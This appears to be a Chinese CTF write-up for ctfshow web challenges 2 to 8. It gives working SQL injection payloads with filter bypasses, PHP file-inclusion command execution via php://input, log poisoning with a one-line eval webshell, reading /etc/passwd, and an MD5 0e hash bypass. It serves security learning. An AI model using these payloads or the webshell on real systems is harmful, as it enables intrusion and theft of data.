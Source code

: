 #### web 2

常规的SQL注入 首先是一个登录框，一般遇到这种情况呢可以先抓包看看 随便输入账号密码 例如 账号admin 密码123456 抓包后，由于是post提交 可以在账号密码中拼接SQL语句 

**SQL注入思路**

 1.根据参数username和password推断为数据库查询，推测查询语句为 select  from user where username=? and password=?，所以用户名处填写 ' or 1=1;#（#为注释，用于截断后续条件），验证通过，因此接下来查询数据库的信息，首先判断中间有几列，因为使用 UNION 的时候两个表的列数量必须相同，因此测试直到填写 ' or 1=1 union select 1,2,3;#判断处有三列，根据返回的信息“欢迎你，ctfshow欢迎你，2”判断前端显示的是第2列内容。 

**ps：**可以使用 `ORDER BY` 子句来尝试。例如，从 1 开始逐渐增加数字，如 `ORDER BY 1` 、 `ORDER BY 2` 等，直到出现错误。当出现错误时，说明之前成功的那个数字就是表中的最大列数。

2.首先查询数据库名字 ，输入语句 ' or 1=1 union select 1,database(),3;# 得到返回信息为“欢迎你，ctfshow欢迎你，web2，所以数据库名为web2。 

3.然后根据语句  ' or 1=1 union select 1,(select group_concat(table_name) from information_schema.tables where table_schema="web2"),3;#。**group_concat 是为了将查询结果连接成一个字符串输出**，结果为“欢迎你，ctfshow欢迎你，flag,user”，因此我们得知有两个表为flag和user。 

4.接下来就是获取flag表格的列名，输入语句 ' or 1=1 union select 1,(select group_concat(column_name) from information_schema.columns where table_name= 'flag' and table_schema='web2" ),3 #。根据结果“欢迎你，ctfshow欢迎你，flag”得出列名为flag 

5.最后获取flag，输入语句' or 1=1 union select 1,(select flag from flag limit 0,1 ),3 # （limit目的为获取第一行的值）获得结果“欢迎你，ctfshow欢迎你，ctfshow{b2faa05a-c4cc-4a5f-a58f-9391ebb19afa}”

**SQL注入查询顺序**：列数——库名（schema_name）——表名(table_name)——字段名(column_name)

- 库名

```
SELECT * FROM users WHERE username='-1' or '1'='1' union SELECT 1,schema_name,2 FROM information_schema.schemata;-- ' AND password='$password';
```

- 表名

```
SELECT * FROM users WHERE username='-1' or '1'='1' union select 1,group_concat(table_name),2 from information_schema.tables where table_schema=database()-- ' AND password='$password';
```

- 字段名

```
SELECT * FROM users WHERE username='-1' or '1'='1' union select 1,group_concat(column_name),2 from information_schema.columns where table_schema=database()-- ' AND password='$password';
```



#### web3

进入题目链接，观察到页面展示了部分源码，为PHP语言，查询得知其中include函数涉及**文件包含漏洞**。

确认该题为PHP文件包含漏洞后，通过了解可使用代理抓包软件Burpsuit去抓包,并且使用**PHP伪协议**中的`php://input`来在包的最下面写上`<?php system('ls')?>`执行系统命令查看当前目录的文件，来查看有无目标文件。

打开bp代理，对该网页进行拦截抓包，在GET请求的url中拼接伪协议`php://input`,将该数据包内容后加入`<?php system('ls')?>`（前面要有一行空行），然后进行放包操作。

观察到放包后页面出现`ctf_go_go_go index.php`字段，ctf_go_go_go文件应该就是藏匿flag的文件。

接着直接在url地址栏中输入url参数,访问ctf_go_go_go文件,得到flag。



#### web4

尝试像**web3**那样使用php伪协议，回显error

看了看提示：日志注入 文件包含

使用Wappalyzer查看一下，使用的中间件是Ngnix[^nginx]

尝试读取它的日志文件：

`?url=/var/log/nginx/access.log`

`?url=/var/log/nginx/error.log`

尝试读取Linux系统下的用户信息：

`?url=/etc/passwd`

从上面的日志信息可以看出是User-Agent的内容，在User-Agent里插入一句话木马

`<?php @eval($_POST['CMD']);?> `

由于访问URL时，服务器会对其进行编码，所以通过使用burpsuite抓包来进行来注入

写入一句话木马之后，使用蚁剑尝试连接，连接url即为日志的地址。

进入后台，找到flag



#### web5

题目为php代码分析，查看代码，关键部分为：

```
<?php
    $flag = ""; // 初始化一个空字符串变量 $flag
    $v1 = $_GET['v1']; // 从 GET 请求中获取参数 'v1' 的值，并赋值给 $v1
    $v2 = $_GET['v2']; // 从 GET 请求中获取参数 'v2' 的值，并赋值给 $v2

    if(isset($v1) && isset($v2)){ // 检查 $v1 和 $v2 是否都已设置（存在且不为 NULL）
        if(!ctype_alpha($v1)){ // 如果 $v1 不只是字母，输出 "v1 error" 并终止脚本
            die("v1 error");
        }
        if(!is_numeric($v2)){ // 如果 $v2 不是数字，输出 "v2 error" 并终止脚本
            die("v2 error");
        }
        if(md5($v1) == md5($v2)){ // 如果 $v1 和 $v2 的 MD5 哈希值相等，输出 $flag 的值
            echo $flag;
        }
    }else{ // 如果 $v1 或 $v2 没有设置
        echo "where is flag?"; // 输出 "where is flag?"
    }
?>
```

要求v1与v2的md5哈希值相等，这里可以使用MD5的0e绕过方式，输入`?v1=QNKCDZO&v2=240610708`

```
QNKCDZO 的md5值为 0e830400451993494058024219903391
240610708 的md5值为 0e462097431906509019562988736854
```

分别满足纯字母和数字字符串,并且md5值以0e开头,而**0e开头的字符串参与比较(==)时,会转化为0**,也就是 0\==0,返回true使if判断成立,从而输出flag。

附：[常见的0E开头的MD5](常见的0E开头的MD5.md)



#### web6

如web2做法发现回显`sql inject error`

使用bp抓包发现username处显示`%27+or+1%3D1%23`（空格没了）可知为空格检测

空格被注释掉了，所以想办法把空格给替代掉，这里注释的方法有两种，那就是注释符/* */和%a0

输入`'/**/or/**/1=1#`，发现可以登录

于是按web2的方法做，只需在空格处加入注释即可。



#### web7

从url地址栏中可以看到,页面通过文章的id值来查询文章内容,可以考虑SQL注入漏洞

`id=1`后输入`1=1`回显`sql inject error`源码中过滤了空格,可以使用括号()或者注释/**/来代替空格

故输入`1/**/and/**/1`,使SQL恒成立,可以看到,页面正常显示

输入`1/**/and/**/0`，使SQL恒不成立，可以看到,页面空显示

由此可以判断页面存在SQL注入,注入点为**数值型注入**,页面中有显示位,可以尝试**联合注入**进行脱库

先来判断显示位,往id传一个-1,判断字段显示的位置

```
-1/**/union/**/select/**/1,2,3
```

接下来按web2与web6的方法做即可



#### web8

本8关是一个SQL 注入漏洞, 注入点是数值型, 注入类型推荐使用布尔盲注,此关卡过滤了空格,逗号,and,union等关键字, 

1. 过滤空格, 可以使用括号() 或者注释/**/ 绕过
2. 过滤and, 可以使用or替代
3. 过滤union, 可以用盲注替代联合注入
4. 过滤逗号, 可以使用特殊语法绕过, 比如:substr(database(),1,1) 可以用substr(database() from 1 for 1)来代替



























[^robots协议]:robots协议是一个位于网站根目录下的robots.txt文件，用来指示搜索引擎爬虫哪些页面可以访问，哪些页面禁止访问。通过遵守Robots协议，可以有效地控制搜索引擎爬虫的抓取行为，维护网站的合法权益。
[^xff]: “XFF” 通常指的是 “X-Forwarded-For”，这是一个 HTTP 请求头字段。它用于识别通过 HTTP 代理或负载均衡器连接到 Web 服务器的客户端的原始 IP 地址。当客户端请求经过多个代理服务器时，每个代理服务器都会把客户端的真实 IP 地址添加到 “X-Forwarded-For” 请求头中，用逗号分隔。

[^referer]: “Referer”是 HTTP 请求头的一个字段,它用于告知服务器，当前请求页面的来源页面的 URL 地址。

[^nginx]: Nginx 作为是高性能的 Web 服务器和反向代理服务器，在系统架构中起到了重要的中间连接和协调作用。
